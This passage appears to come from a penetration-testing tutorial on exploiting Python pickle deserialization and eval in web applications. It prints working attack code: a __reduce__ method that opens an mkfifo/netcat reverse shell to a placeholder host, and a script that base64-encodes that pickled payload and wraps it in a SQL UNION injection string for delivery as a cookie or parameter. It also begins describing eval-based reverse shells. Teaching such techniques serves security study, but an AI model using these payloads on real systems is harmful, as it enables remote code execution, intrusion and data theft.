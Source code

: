In the above code, `{'serum': anti_pickle_serum()}` represents the original data before it's `pickled` therefore when we `pickle` it using `pickle.dumps` it calls the `__reduce__` function and it executes `ls`.

The next step is to encode the malicious pickle into base64 to be able to use it in the web application, in our case, as the cookie.

Check this video for an example

```
https://www.youtube.com/watch?v=NfLGOuHLjIo
```

Another way of exploiting this method is to execute system commands inside the class `__reduce__` as the code below shows

```python
def __reduce__(self):  
import os  
cmd = ("mkfifo /tmp/p; nc ip port 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p")  
return os.system, (cmd,)
```

You can also combine SQL Injection with this weakness in Python given that you tested the web application that it's vulnerable to SQL Injection. The below code will print out a payload to the console that will execute reverse shell payload in an SQL payload.

```python
import sys  
import base64  
import pickle  
import urllib.parse  
import requests  
  
class Payload:  
  
	def __reduce__(self):  
		import os  
		cmd = ("mkfifo /tmp/p; nc ip port 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p")  
		return os.system, (cmd,)  
  
if __name__ == "__main__":  
  
	payload = base64.b64encode(pickle.dumps(Payload())).decode()  
  
	payload = f"' UNION SELECT '{payload}' -- "  
  
	payload = requests.utils.requote_uri(payload)  
  
	print(payload)
```

#### The Eval Function

Much like in the PHP language, eval in python can be exploited the same way to execute payloads. Example payloads \[1] The below payload returns a reverse shell. If you are subtituting it in place of a certain parameter in `Burp Suite` make sure to URL encode the spaces and `&`
